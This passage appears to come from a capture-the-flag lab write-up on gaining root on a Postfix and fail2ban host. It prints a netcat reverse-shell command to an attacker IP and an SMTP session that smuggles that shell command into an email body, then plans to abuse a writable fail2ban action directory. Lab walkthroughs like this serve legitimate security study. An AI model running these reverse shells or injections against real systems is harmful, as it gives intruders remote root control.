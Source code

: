 On target:

```bash
nc 10.10.14.5 4444 -e /bin/sh
```

![nc test](nc test.png)

Yep, that's successful. Now let's see if we can get root using the same trick? We already know root is running postfix, so perhaps we can use this CVE to get a root reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ telnet $RADDR 25                                                                                                                                                                             1 ⨯
Trying 10.10.11.166...
Connected to 10.10.11.166.
Escape character is '^]'.
220 debian.localdomain ESMTP Postfix (Debian/GNU)
MAIL FROM: root
250 2.1.0 Ok
RCPT TO: michael 
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Michael, I'm sending you an email\n~! nc 10.10.14.5 4444 -e /bin/sh 

.
250 2.0.0 Ok: queued as B36C741221
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
```

To check if the email was delivered, I used ``mailq``. Indeed it was delivered, but no reverse shell appeared...

Ok, that's too bad, but I still think fail2ban is a solid lead. We already saw that the ``/etc/fail2ban/action.d`` directory is writable by michael. So maybe it is possible to create a new fail2ban action that will acquire us the root shell.

> At this point, I had to go research how fail2ban is used and configured. For this, I found the following resources useful:
>
> - https://linuxhandbook.com/fail2ban-basic/
> - https://webcp.io/custom-fail2ban-action/

It looks like ``/etc/fail2ban/jail.conf`` would have to be modified to be able to use a custom action. I think modifying an existing action is probably the best option. However, it looks like there aren't any jails enabled:

```bash
grep -B 20 -A 10 "enabled = true" jail.conf
```

But then again, within ``jail.d`` there is a single entry enabling an sshd jail. Maybe it is as simple as making a new custom jail sshd.conf containing my reverse shell?
